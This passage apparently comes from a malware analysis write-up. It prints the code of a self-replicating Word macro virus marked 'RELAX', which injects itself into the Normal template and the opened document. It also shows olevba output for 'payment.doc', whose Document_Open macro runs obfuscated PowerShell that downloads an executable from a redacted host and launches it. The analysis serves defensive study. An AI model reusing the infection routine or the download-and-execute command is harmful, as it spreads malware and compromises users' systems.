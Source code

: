 kk& = InStr(1, keimeno, "'RELAX")
keimeno = Right$(keimeno, Len(keimeno) - kk& + 1)
For j = 1 To 2
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").Export x$
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").Export x$
End If
Open x$ For Input As #1
rlx = Input(LOF(1), 1)
Close #1
d1 = InStr(1, rlx, "'RELAX")
If d1 = 0 Then
If j = 1 Then
NormalTemplate.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
NormalTemplate.Save
Else
ActiveDocument.VBProject.vbcomponents.Item("ThisDocument").CodeModule.InsertLines 1, keimeno
End If
End If
Next j
'====================
Dim PRostasia As Byte
PRostasia = 1
fff = FreeFile
If Dir(ActiveDocument.FullName, 6) <> "" Then
Open ActiveDocument.FullName For Binary As #fff
Put #fff, 862, PRostasia
Close #fff
ActiveDocument.Save
End If
Kill x$
Application.ScreenUpdating = True
End Sub

Private Sub Document_Open()
Call GOODSub
End Sub
{% endhighlight %}

#### `olevba .\payment.doc`

{% highlight vb linenos %}
PS C:\Users\vagrant\Desktop\work> olevba .\payment.doc                                                                                olevba 0.55.1 on Python 3.7.2 - http://decalage.info/python/oletools
===============================================================================
FILE: .\payment.doc
Type: OLE
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: .\payment.doc - OLE stream: 'Macros/VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_Open()
Shell ("cmd.exe /c PoWerSHElL (nEW-oBjEcT sYsTeM.neT.wEBcLiEnT).dOWNLOadfIlE('hxxp://<REDACTED>/NDGAFV.exe','%Appdata%\playa.exe');&start %Appdata%\playa.exe& exit")
End Sub
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_Open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
